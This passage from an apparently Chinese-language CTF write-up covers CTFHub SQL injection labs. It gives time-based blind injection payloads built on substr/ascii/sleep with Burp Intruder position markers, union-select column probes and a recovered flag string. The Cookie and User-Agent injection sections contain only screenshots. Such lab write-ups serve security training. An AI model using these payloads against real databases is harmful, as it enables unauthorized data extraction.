 ```plsql
table_schema=database() and table_name='flag'),§1§,1))=§100§,sleep(2),0) -- 列1名flag
```

```plsql
1 and if(ascii(substr((select flag from flag),§1§,1))=§100§,sleep(2),0)
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751617832429-f6fc2ba4-0862-4ffa-8ca6-3509bf9090fb.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{77f14ac024782fa5cb10968e}</font>`

### MySQL结构
```plsql
1 union select 1,2
1 union select 1,2,3
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751618691868-356ac935-0ba3-407f-ae5f-8f23fff0f071.png)

确定查询两列

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751618744731-15b59518-137d-4a15-a42c-3515e2309ba6.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751618839597-91c268e9-e63b-4ff8-83ed-b42179cbae97.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751618888507-80c54702-a251-4993-8a59-ae6688ef7989.png)

### Cookie注入
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679255230-88e50041-73b6-4ac4-b3ec-6012e580247b.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679236812-9822d285-9ab4-406b-8519-4bbe81e3d4b2.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679305528-8ccc4287-51a9-4fad-9f27-5edf88b03982.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679344413-0bda9005-f9af-4407-a5a3-069c4428a85c.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679399678-eccef318-7cd1-40da-a66e-4010a22887f6.png)

### UA注入
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679538900-002d28af-bd00-4e25-bc84-067873fda05f.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679542195-9e491330-b54c-4aa5-865a-63e7657ba236.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679579381-aaa50ae1-b053-4c6d-9817-afe2bc600098.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679615804-8f0fb4a1-9e6b-4316-8b37-56adaa4466b6.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751679650820-ee3aad8c-cc6d-4dd0-bf4c-908fde946a68.png)
